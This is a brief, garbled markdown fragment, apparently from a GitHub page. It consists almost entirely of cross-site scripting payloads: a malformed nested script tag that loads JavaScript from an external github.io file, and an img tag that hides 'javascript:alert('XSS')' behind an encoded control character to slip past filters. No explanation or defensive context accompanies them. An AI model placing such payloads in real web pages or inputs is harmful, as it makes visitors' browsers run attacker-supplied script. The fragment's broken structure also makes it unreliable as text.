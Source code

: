 ![

<<SCRIPT SRC=../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js?< B >
<img SRC=" &#14; javascript:alert('XSS');">

](()
